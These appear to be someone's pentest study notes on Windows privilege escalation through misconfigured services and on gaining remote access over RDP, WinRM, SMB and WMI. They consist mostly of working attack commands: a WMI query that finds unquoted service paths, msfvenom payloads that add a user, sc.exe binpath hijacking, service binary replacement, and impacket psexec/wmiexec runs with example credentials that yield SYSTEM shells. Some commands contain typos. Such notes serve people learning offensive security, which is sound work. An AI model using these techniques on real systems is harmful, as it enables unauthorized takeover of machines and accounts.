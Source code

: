   - check restart possible or rebook host as current user
    - restart-service abysswebserver


  - not binpath, service path
  - not Get-Service (they don't have service path )
  - check 
  Get-WmiObject Win32_Service | Where-object {$_.Startmode -eq 'Auto' -and $_.pathname -notlike 'c:\windows\*' -and $_.PathName -notmatch '^\s*\".*$'} | select-object Name, DisplayName, PathName, StartMode

misgranted specific user or group with modify service 
  1. binpath
  - binpath 
  - check binpath: sc.ex qc SERVICE 
  - make payload : msfvenom -p windows/x64/exec CMD="net user Administrators redraccoon /add" -f exe-service -o malicious.exe
  - modify : sc.exe config SERVICE binpath ="c:\temp\malicious"
  - check and confirm application and restart
  - restart-servie 

  2. or replace service binary itself  
  - check binpath: sc.ex qc SERVICE 
  - check write permission to specific user
  - make payload : msfvenom -p windows/x64/exec CMD="net user Administrators redraccoon /add" -f exe-service -o SERVICENAME.exe
  - replace binary with same service binary name

remote access 
official
1. RDP
  - xfreerdp /u:
  - rdeskrdp -u: 
2. WinRP 
  - evil-winrm like ssh 
unofficial
3. SMB
  - upload malicious file ADMIN$ as local Administrator priv 
    - and create service(path=malicious file) with RPC request
    - and start service
    - get shell as Authority\SYSTEM

  - impacket-psexec Administrator:"Password123!" 
    - python based tools, scripts and libraries  
    - get as SYSTEM
4. WMI
  - impacket-winwmid Administrator:"Password123!" 
  - get CMD as Local administrator


## Review & Remind
1. RDP, WinRM, SMB, WMI were opened
  but I need user account, actual users
    need to find creds first
